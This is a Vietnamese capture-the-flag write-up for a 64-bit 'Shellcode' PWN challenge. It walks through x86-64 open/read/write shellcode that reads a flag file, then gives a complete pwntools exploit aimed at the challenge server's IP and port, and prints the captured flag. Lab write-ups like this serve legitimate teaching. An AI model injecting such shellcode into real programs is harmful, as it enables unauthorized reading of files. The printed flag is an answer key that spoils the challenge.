

# **Shellcode - PWN CTF Challenge**

### ***Description***
---

> Dễ mà tự viết đi trên trên mạng không có đâu
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

### ***Background and Ideas***
---

Đầu tiên ta kiểm tra được đây là file ELF 64-bit, chỉ được bật flag `PIE`. Nhận thấy `NX` đang tắt nên khả năng ta có thể chèn shellcode.


Thực thi thử chương trình thì chương trình cho phép nhập lệnh để đọc flag tại file `PhaPhaKhongCoDon.txt` nhưng giới hạn chỉ sử dụng các hàm `open`, `read`, `write`.


Từ đó, ta có thể hiểu nhiệm vụ sẽ là viết 1 đoạn shellcode có chức năng `open` file `PhaPhaKhongCoDon.txt` rồi `read` nội dung file vào 1 buffer và cuối cùng là `write` nó ra màn hình.

Đây là một [bài](https://drx.home.blog/2019/04/03/pwnable-tw-orw/) có ý tưởng hoàn toàn tương tự nhưng ở kiến trúc 32-bit. Dựa vào đó ta có thể tự viết đoạn mã assembly ở kiến trúc 64-bit.

Ta sẽ gọi các hàm `sys_open()`, `sys_read()`, `sys_write()` lần lượt theo ý tưởng ở trên. Sử dụng [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) này ta có thể hiểu được cấu trúc khi gọi các hàm trên.


### ***Exploitation***
---

Đầu tiên là thực hiện push tên file flag `PhaPhaKhongCoDon.txt` vào stack. Vì đây là kiến trúc 64-bit nên mỗi lần chỉ push được 8 bytes nên ta sẽ push 3 lần. Khi đó, `PhaPhaKhongCoDon.txt` sẽ nằm tại rsp.

```js
mov 	rbx, %d' % u64(b'.txt\x00\x00\x00\x00')
push 	rbx
mov 	rbx, %d' % u64(b'ongCoDon')
push 	rbx
mov 	rbx, %d' % u64(b'PhaPhaKh')
push 	rbx
```

Ở bước gọi `sys_open()`, ta set các thanh ghi:
- `rdi` sẽ lấy tên file từ `rsp`
- `rdx` = 0 để mở file với mode O_RDONLY (Khác 0 sẽ không xem được flag trên server do server set quyền chỉ cho phép đọc)
- `rsi` không cần quan tâm, ta set bằng 0. 
- `rax` sẽ là `0x2` (syscall number)

```js
mov		rdi, rsp		
mov		rsi, 0
mov 	rdx, 0	
mov		rax, 2	
syscall
```
Ở bước gọi `sys_read()`, ta set các thanh ghi:
- `rdi`: file descriptor của file cần mở. Chính là giá trị trả về từ hàm `sys_open()` bên trên đã được lưu vào thanh ghi rax. Nên `rdi = rax`.
- `rsi` lưu địa chỉ buffer để đọc dữ liệu file vào. Phải chắc chắn là thanh ghi có địa chỉ nên ở đây ta chọn luôn `rsp`.
- `rdx` là số byte đọc từ file, set 0x100 cho đủ lớn 
- `rax` sẽ là `0x0` (syscall number)

```js
mov		rdi, rax
mov		rsi, rsp
mov		rdx, 0x100
mov 	rax, 0
syscall
```
Ở bước gọi `sys_write()`, ta set các thanh ghi:
- `rdi`: set bằng 0x1 để output nội dung ra màn hình.
- `rsi` lưu địa chỉ buffer để ghi dữ liệu file ra, chính là `rsp` ở trên.
- `rdx` là số byte cần ghi, chính là giá trị trả về của `sys_read()` nên `rdx = rax`.
- `rax` sẽ là `0x1` (syscall number)

```js
mov		rdi, 1
mov		rsi, rsp
mov		rdx, rax
mov 	rax, 1
syscall
```
Dựa trên những phân tích trên, ta có mã khai thác hoàn chỉnh để chèn shellcode vào chương trình.

```js
from pwn import *

#p = process('./shellcode')
r = remote('45.122.249.68', 10017)

shellcode = asm('\n'.join([
	'mov rbx, %d' % u64(b'.txt\x00\x00\x00\x00'),
	'push rbx',
	'mov rbx, %d' % u64(b'ongCoDon'),
	'push rbx',
	'mov rbx, %d' % u64(b'PhaPhaKh'),
	'push rbx', 
	'mov	rdi, rsp',		
	'mov	rsi, 0',
	'mov 	rdx, 0',	
	'mov	rax, 2',	
	'syscall',
	'mov	rdi, rax',
	'mov	rsi, rsp',
	'mov	rdx, 0x100',
	'mov 	rax, 0',
	'syscall',
	'mov	rdi, 1',
	'mov	rsi, rsp',
	'mov	rdx, rax',
	'mov 	rax, 1',
    'syscall',
]), arch='amd64', os='linux')

r.recvuntil(b'PhaPhaKhongCoDon.txt\n')
r.sendline(shellcode)
r.interactive()
```
Thực thi và ta có flaggg!



> **FLAG: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}**


